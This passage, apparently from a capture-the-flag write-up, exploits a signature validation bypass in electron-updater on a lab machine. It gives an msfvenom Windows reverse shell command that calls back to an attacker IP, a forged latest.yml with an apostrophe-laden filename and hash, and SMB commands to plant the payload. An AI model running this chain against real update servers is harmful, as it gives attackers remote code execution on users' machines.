 ```
file heedv1\ Setup\ 1.0.0.exe
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920141859.png)

extracting this file gave us another zip file this time 7z

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920142407.png)

Searching this files I didn't find anything usefull.

## Gaining Access

For now I know only that this is build with electron using electron-builder. Searching for exploits I found:
https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html
Signature Validation Bypass Leading to RCE in electron-updater

So we can force application to use our malicious code with `'` signature.
Let's start with creating reverse shell with msfvenom
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f exe -o rev.exe
```

Then:
```
sha512sum rev.exe | cut -d ' ' -f1 | xxd -r -p | base64 -w0
```

and output of this put in malicious file latest.yml in sha512 place also change size of the payload, version 1.2.3 doesn't work and date

```
version: 2.2.3
files:
  - url: r'ev.exe
    sha512: 0503+fC2tc3G0MSRqe9J2VjVDjN4xavpB47ptwznYem7NewLMPs8QkCGHhGod9ZAvW8leW02Ixm4eO2Bmxe5Tg==
    size: 7168     
path: r'ev.exe
sha512: 0503+fC2tc3G0MSRqe9J2VjVDjN4xavpB47ptwznYem7NewLMPs8QkCGHhGod9ZAvW8leW02Ixm4eO2Bmxe5Tg==
releaseDate: '2021-04-17T11:17:02.627Z'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250920155850.png)

the only way to put this file into server is via smb where we have access, so let's start listener, connect to smb and get put this files on server

```
smbclient \\\\10.10.10.237\\'Software_Updates'
cd client1
put latest.yml
put reverse.exe r'everse.exe
```
